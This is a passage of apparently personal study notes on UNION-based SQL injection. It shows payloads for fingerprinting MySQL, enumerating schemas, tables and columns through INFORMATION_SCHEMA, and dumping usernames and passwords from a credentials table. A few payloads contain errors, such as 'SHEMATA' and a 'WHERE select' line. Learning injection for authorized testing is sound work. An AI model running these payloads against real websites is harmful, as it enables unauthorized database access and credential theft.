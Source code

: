 For example, the "id" field is often used to link to other tables, but is almost never displayed to the user  
To find out, use numbers as your junk data, so you can see which numbers are displayed easily  
```sql
# Assuming column 1 is not displayed to the end user
cn' UNION select 1,@@version,3,4-- 
```
## DB Enumeration
### MySQL
We need to know what flavor of SQL to craft our querys. (Ex: MySQL, MSSQL, etc)  
Good guesses: Webserver is IIS, probably MSSQL. If Webserver is NGINX or Apache, probably MySQL.
```sql
# MySQL
SELECT @@version # Useful for when we have full query output. Will return with MSSQL & MySQL, but errors with others
SELECT POW(1,1) # Useful for when we only have numeric output. Only works with MySQL
SELECT SLEEP(5) # Blind/No Output. Delays page response by 5 seconds. Only works with MySQL
```
### INFORMATION_SCHEMA db
To pull data, we need a list of db's, list of tables within each db, list of columns in each table  
Use the dot (.) operator to reference a table in another db
```sql
# Example query using the (.) dot operator
SELECT * FROM my_database.user;
# Selects all from table user in my_database db
```
### SCHEMATA
Enumerate which db's are available  
The table SCHEMATA in the INFORMATION_SCHEMA db contains the info about all db's on the server
```sql
# Direct query, not an injection
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SHEMATA;
# Injection
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA--  
# Find the current db the webapp is using. Use "database()" query
cn' UNION select 1, database(),2,3-- 
```
### Tables
To get a list of tables, use TABLES table in the INFORMATION_SCHEMA db
```sql
cn' WHERE select 1, TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='users'-- 
# Selects TABLE_NAME, TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES where the table table_schema = users.
```
### Columns
Column names can be found in the COLUMNS table in the INFORMATION_SCHEMA db
```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- 
# Selects column name, table name, and table schema from columns table in information_schema db where the
# table name is credentials
```
### Data
From the above info, we can now craft our query.
```sql
cn' UNION select 1, username, password, 4 from users.credentials--
```
## Reading Files